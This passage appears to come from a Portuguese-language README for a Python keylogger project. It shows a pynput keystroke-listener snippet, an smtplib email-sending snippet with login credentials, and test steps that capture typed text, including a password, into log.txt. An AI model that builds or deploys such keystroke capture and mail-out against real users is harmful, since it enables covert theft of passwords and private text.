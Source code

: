 ```
└─────────────────────────────────────────────────┘
```

### Bibliotecas Utilizadas

**pynput**

A biblioteca `pynput` fornece controle de mouse e teclado em Python. Funciona em Windows, Linux e macOS.

```python
from pynput import keyboard

def on_press(key):
    print(f'Tecla pressionada: {key}')

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

**secure-smtplib**

Extensão segura da biblioteca `smtplib` para envio de e-mails com suporte a TLS/SSL.

```python
import smtplib

server = smtplib.SMTP('smtp.gmail.com', 587)
server.starttls()
server.login(email, senha)
server.send_message(msg)
```

---

## 🧪 Testes e Validação

### Teste 1: Captura Básica

```bash
python Keylogger.py
# Digite: "teste123"
# Verifique log.txt
```

**Resultado Esperado:**

```
teste123
```

### Teste 2: Teclas Especiais

```bash
python Keylogger.py
# Digite: "senha" + Enter + Tab
# Verifique log.txt
```
